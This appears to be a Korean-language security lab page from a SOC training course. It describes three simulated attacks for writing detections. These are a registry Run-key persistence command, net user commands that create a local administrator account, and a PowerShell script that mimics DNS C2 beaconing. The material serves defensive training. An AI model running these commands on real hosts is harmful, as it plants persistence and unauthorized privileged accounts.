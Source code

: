 # 모듈 7 - 랩 1 - 연습 4 - 검색 모델링 이해

### 작업 1: 공격 이해

**중요: 이 연습에서는 특별한 작업을 수행하지 않으며**  여기에 나오는 지침은 다음 연습에서 수행하게 될 공격에 대한 설명입니다. 이 페이지의 내용을 주의하여 읽어보세요.

이 공격의 패턴은 오픈 소스 프로젝트 https://github.com/redcanaryco/atomic-red-team 을 토대로 작성된 것입니다.

**참고:** 랩을 진행하기 위해 짧은 시간 내에 트리거되는 설정도 있습니다.

#### 공격 1 - 레지스트리 키 추가를 통한 지속성 적용

이 공격은 명령 프롬프트에서 실행합니다.

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 공격 2 - 사용자 추가 및 권한 상승

이 공격에서는 공격자가 새 사용자를 추가한 다음 권한을 Administrators 그룹으로 높입니다.  그러면 권한이 있는 다른 계정으로 로그온할 수 있게 됩니다.

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 공격 3 -DNS/C2 

이 공격에서는 C2(명령 및 제어) 통신을 시뮬레이트합니다.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### 작업 2: 검색 모델링 이해

이 랩에서 사용하는 공격 검색 구성 주기에는 모든 데이터 원본이 포함됩니다. 하지만 실제로는 두 가지 데이터 원본만 중점적으로 검색합니다.

검색을 작성하려면 먼저 KQL 문을 작성해야 합니다.  여기서는 호스트를 공격할 것이므로 KQL 문 작성을 시작하는 데 필요한 대표 데이터가 제공됩니다.

다음 랩에서는 엔드포인트용 Defender 및 Sysmon 포함 Windows가 설치된 Windows 호스트에서 동일한 공격을 실행합니다.  검색을 작성하는 과정에서 각 문의 데이터 정규화 방식 차이를 확인할 수 있습니다.

KQL 문을 완성한 후에는 분석 규칙을 만듭니다.

규칙이 트리거되어 경고와 인시던트가 생성되면 조사를 진행하여 보안 운영 분석자의 조사 과정에 도움이 되는 필드가 제공되고 있는지를 확인합니다.

그리고 나서 필요에 따라 분석 규칙의 다른 부분을 변경합니다.

# 연습 5 계속 진행
